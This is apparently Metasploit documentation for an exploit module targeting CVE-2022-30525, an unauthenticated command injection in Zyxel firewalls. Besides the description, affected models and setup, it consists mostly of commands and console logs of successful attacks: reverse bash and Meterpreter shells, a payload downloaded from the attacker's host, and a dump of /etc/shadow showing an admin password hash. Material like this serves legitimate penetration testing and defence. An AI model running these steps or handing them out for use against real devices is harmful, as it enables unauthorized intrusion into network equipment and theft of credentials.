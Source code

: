 ## Vulnerable Application

### Description

This module exploits CVE-2022-30525, an unauthenticated and remote
command injection vulnerability affecting Zyxel firewalls with zero
touch provisioning (ZTP) support. This module exploits a command injection
exposed by the /ztp/cgi-bin/handler when handling setWanPortSt commands.
The module adds OS commands to the mtu field of the setWanPortSt request
in order to achieve command execution as `nobody`.

Affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700 using firmware 5.21 and below
* USG20-VPN and USG20W-VPN using firmware 5.21 and below
* ATP 100, 200, 500, 700, 800 using firmware 5.21 and below

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. After
acquiring the device, Zyxel will require the system be registered and
updated (this will require registering an account at zyxel.com). Firmware
on the system, however, can be downgraded. Acquire a vulnerable firmware
version and downgrade (if needed). The system should be in a vulnerable
state as long as it's using a vulnerable firmware (affected versions
listed above).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/zyxel_ztp_rce`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse sh shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48153 ) at 2022-05-09 14:06:47 -0700
[+] Exploit successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /etc/shadow
root:***:12396:0:99999:7:::
bin:***:12396:0:99999:7:::
daemon:***:12396:0:99999:7:::
adm:***:12396:0:99999:7:::
lp:***:12396:0:99999:7:::
sync:***:12396:0:99999:7:::
shutdown:***:12396:0:99999:7:::
halt:***:12396:0:99999:7:::
mail:***:12396:0:99999:7:::
news:***:12396:0:99999:7:::
uucp:***:12396:0:99999:7:::
operator:***:12396:0:99999:7:::
games:***:12396:0:99999:7:::
ftp:***:12396:0:99999:7:::
sshd:***:12396:0:99999:7:::
nobody:***:12396:0:99999:7:::
debug:***:12396:0:99999:7:::
#deadbeaf  Don't remove this line
admin:$5$52TVVua8$64kGlcP7$tNKPUArLMHZtmYy84GwUviNYNwBmDkLQ+cKkP9ToPRZqbAA3tgyfRd58rutqhxl36xVWYYRs5GhzX9Hd3ID9PvH5/F7RH0jPRLlug3+TecNkofrbDf3XOan3L8ZeChhzudZgUkP9A4sXfm6dEXguZ2+nLj98gyh7W8dl2/g+h3giNWW9Qsp1JdvaC3wIV53nlZ4p8JEPbswfsJ+KNEsb8AHajPfE+MVT4iTT9OhxPQnwMYaVhyRfauJeUrLtDHDzZq+bvHfmTp4NxUWOjwbXlBa7D6dRD21U3KW9btQM3SMDMSiwZGX1bo5Bu09lWiyzEPPIsy3n7Jsw+W818cZQm7I4b/BMn5tmdkafJz3uCw4$:19121:0:99999::::
ldap-users:***:19121:0:99999::::
radius-users:***:19121:0:99999::::
ad-users:***:19121:0:99999::::
ua-users:***:19121:0:99999::::
cloud-users:***:19121:0:99999::::
```

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse Meterpreter shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/vFiLDBVYvqzd
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Client 10.0.0.14 (curl/7.70.0) requested /vFiLDBVYvqzd
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[*] Meterpreter session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48159 ) at 2022-05-09 14:11:29 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > shell
Process 25619 created.
Channel 1 created.
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
cat /proc/cpuinfo
system type		: ROUTER7000_REF (CN7020p1.2-1200-AAP)
machine			: Unknown
processor		: 0
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 0
VCED exceptions		: not available
VCEI exceptions		: not available

processor		: 1
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 1
VCED exceptions		: not available
VCEI exceptions		: not available
```
